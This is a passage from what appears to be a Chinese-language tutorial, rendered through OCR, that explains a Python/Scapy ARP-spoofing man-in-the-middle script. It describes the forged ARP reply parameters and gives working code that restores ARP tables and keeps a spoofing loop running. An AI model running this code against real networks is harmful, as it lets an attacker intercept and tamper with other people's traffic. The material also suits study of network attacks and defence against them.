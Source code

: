 - **作用**：发送伪造的 ARP 响应，将攻击者的 MAC 地址冒充成网关或目标的 MAC 地址。

- 关键参数

  ：

  - `op=2`：表示这是一个 ARP 响应。

  - ```
    pdst
    ```

     和 

    ```
    psrc
    ```

    ：

    - `pdst` 是目标 IP 地址。
    - `psrc` 是伪造的源 IP 地址（网关或目标）。

  - `hwdst`：目标机器的 MAC 地址。

- **结果**：伪造的 ARP 响应使目标更新其 ARP 表，将攻击者的 MAC 地址错误地映射到网关的 IP。

------

#### **4. 恢复 ARP 表**

```python
def reARP():
    victimMAC = get_mac(victimIP)
    gateMAC = get_mac(gateIP)
    send(ARP(op=2, pdst=gateIP, psrc=victimIP, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=victimMAC), count=7)
    send(ARP(op=2, pdst=victimIP, psrc=gateIP, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=gateMAC), count=7)
    os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
```

- **作用**：停止攻击后，发送正常的 ARP 响应恢复网关和目标机器的 ARP 表。

- 原理

  ：

  1. 再次广播正确的 ARP 响应，修复目标和网关的 ARP 映射。
  2. 关闭 IP 转发功能。

------

#### **5. 持续 ARP 欺骗**

```python
def mitm():
    victimMAC = get_mac(victimIP)
    gateMAC = get_mac(gateIP)
    while 1:
        trick(gateMAC, victimMAC)
        time.sleep(0.5)
```
